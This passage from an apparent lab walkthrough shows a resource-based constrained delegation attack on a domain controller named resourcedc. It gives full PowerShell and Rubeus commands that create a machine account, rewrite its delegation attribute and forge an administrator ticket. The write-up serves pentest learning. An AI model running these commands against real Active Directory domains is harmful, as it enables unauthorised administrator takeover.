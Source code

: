 This means that the user has full control over the DC and we can basically do whatever we want. We can abuse this to get an administrator shell via RCBD:

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution" %}

Bloodhound also provides some commands to abuse this. Here are the commands I used:

<pre class="language-powershell"><code class="lang-powershell"><strong>## import modules
</strong><strong>. .\powermad.ps1
</strong>. .\power.ps1
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Password@123' -AsPlainText -Force)
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer resourcedc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
.\Rubeus.exe hash /password:Password@123 ## A29F7623FD11550DEF0192DE9246F46B
.\Rubeus.exe s4u /user:attackersystem$ /rc4:A29F7623FD11550DEF0192DE9246F46B /impersonateuser:administrator /msdsspn:cifs/resourcedc.resourced.local /ptt
</code></pre>

Once we have run these, it should work and we can check `klist` to see that we have the administrator's ticket:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

However, even with this ticket, it appears we still cannot access the administrator's desktop (and also we still don't have a shell...)

<figure><img src="../../../.gitbook/assets/image (6) (14).png" alt=""><figcaption></figcaption></figure>
